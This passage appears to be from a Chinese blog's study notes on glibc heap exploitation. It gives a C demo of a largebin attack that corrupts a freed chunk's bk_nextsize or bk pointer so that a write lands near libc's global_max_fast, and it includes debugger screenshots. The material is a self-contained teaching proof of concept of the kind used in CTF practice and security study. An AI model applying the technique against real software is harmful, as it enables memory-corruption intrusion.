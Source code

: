 ```c
    malloc(0x500);
    free(chunk2);
    chunk1[3]=global_max_fast_20;
    malloc(0x500);
}
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0eb0920b4ea2456aa5a2482a61e88546.png)
-  加入的large chunk不小于最小的，大于某一个，改bk_nextsize或者bk

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

size_t getlibc()
{
    puts("getlibc");
    size_t libc_addr=puts-0x67870;
    size_t global_max_fast=libc_addr+0x39d848;
    return global_max_fast;
}

int main()
{
    size_t* chunk1=malloc(0x410);
    malloc(0x10);
    size_t* chunk2=malloc(0x420);
    malloc(0x10);   
    size_t* chunk3=malloc(0x400); // puts use
    malloc(0x10); 

    free(chunk3);  // puts use
    size_t global_max_fast_20=getlibc()-0x20;
    
    free(chunk1);
    malloc(0x500);
    free(chunk2);
    //chunk1[1]=global_max_fast_20+0x10;
    chunk1[3]=global_max_fast_20;
    malloc(0x500);
}
```
- 改chunk1[3]=global_max_fast_20;
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/2be293b466d742b8aef587b72a10a754.png)
- 改chunk1[1]=global_max_fast_20+0x10;
原来的largebin中的第一个chunk
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/cb4ee67ada12471eaf5e00e4d804325c.png)
放入largebin之后
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/221e5eac06f744b4bb972cdf248e7528.png)
